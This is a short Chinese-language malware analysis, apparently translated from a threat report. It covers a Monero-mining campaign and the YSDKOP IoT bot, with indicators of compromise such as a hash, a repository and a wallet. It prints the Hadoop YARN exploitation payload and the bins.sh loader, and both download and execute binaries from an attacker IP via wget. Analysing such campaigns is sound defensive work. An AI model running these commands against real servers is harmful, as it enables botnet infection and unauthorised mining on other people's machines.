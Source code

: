 *截至 11 月 12 日，非法采矿作业产生的总 XMR 付款为 566 XMR 或约 60，000 美元。*

*![](img/894613578e76fe5d31471d4e82e3d7b8.png)*

```
*IOCa1bd663986bae6b5cea19616c9507d09618eaddb71051ae826580a0b7e610ae5 x_64
Bitbucket repo: [https://bitbucket[.]org/zrundr42/mygit/src/master/](https://bitbucket.org/zrundr42/mygit/src/master/)
Mining pool account:
46CQwJTeUdgRF4AJ733tmLJMtzm8BogKo1unESp1UfraP9RpGH6sfKfMaE7V3jxpyVQi6dsfcQgbvYMTaB1dWyDMUkasg3S*
```

# *躲起来的恶魔机器人*

*YSDKOP 机器人是通过 Hadoop YARN 利用以下有效负载交付的:*

```
*User-Agent: [python-requests/2.6.0 CPython/2.6.6 Linux/2.6.32-754.3.5.el6.x86_64]
{"am-container-spec": {"commands": {"command": "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/bins.sh -O /tmp/flex; chmod +x /tmp/flex; /tmp/flex; rm -rf/tmp/flex"}}, "application-id": "application_1802197302061_0095", "application-type": "YARN", "application-name": "get-shell"}*
```

*下载的“bins.sh”脚本以典型的物联网加载程序的方式依次下载几个二进制文件:*

```
*$ cat bins.sh 
#!/bin/bash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.mips; chmod +x YSDKOP.mips; ./YSDKOP.mips; rm -rf YSDKOP.mips
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.mpsl; chmod +x YSDKOP.mpsl; ./YSDKOP.mpsl; rm -rf YSDKOP.mpsl
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.sh4; chmod +x YSDKOP.sh4; ./YSDKOP.sh4; rm -rf YSDKOP.sh4
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.x86; chmod +x YSDKOP.x86; ./YSDKOP.x86; rm -rf YSDKOP.x86
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.arm6; chmod +x YSDKOP.arm6; ./YSDKOP.arm6; rm -rf YSDKOP.arm6
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.i686; chmod +x YSDKOP.i686; ./YSDKOP.i686; rm -rf YSDKOP.i686
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.ppc; chmod +x YSDKOP.ppc; ./YSDKOP.ppc; rm -rf YSDKOP.ppc
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.i586; chmod +x YSDKOP.i586; ./YSDKOP.i586; rm -rf YSDKOP.i586
```